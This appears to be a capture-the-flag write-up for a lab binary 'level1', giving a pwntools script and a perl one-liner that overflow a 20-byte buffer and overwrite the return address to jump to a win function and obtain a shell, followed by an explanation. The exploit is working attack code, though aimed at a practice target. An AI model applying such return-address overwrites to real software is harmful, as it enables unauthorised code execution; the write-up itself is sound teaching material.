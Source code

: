 # Solution with pwntools
```
from pwn import *

#context.log_level = 'debug'
context.local(endian='big')

payload = cyclic(28) + "\xd6\x84\x04\x08"

p = process("./level1")
pause()
p.recvuntil("What is your name :", timeout=0)

p.sendline(payload)

p.interactive()
#p.recvall()
```


# Solution from the shell

`(perl -e 'print "A"x28; print "\xd6\x84\x04\x08";'; cat -) | ./level1`


# Explanation : 
This is a very basic buffer overflow. What is happening is that the fgets function tried to read up to 100 char on the standard input and put it in the `name`  buffer. The problem is that the `name` buffer is only 20 char long. The following bytes are also read and then put on the stack in order. This will overwrite the values on the stack and eventually change the return address of the function, which will lead to a segmentation fault. 

Our goal here is to overwrite the return address with that of another function in the code (the win function). Since almost all protections were removed in the binary file, the memory address where that code lives is static (0x080484d6) and by writing those bytes to the stack, we can jump to the appropriate function and get a shell. Yay!
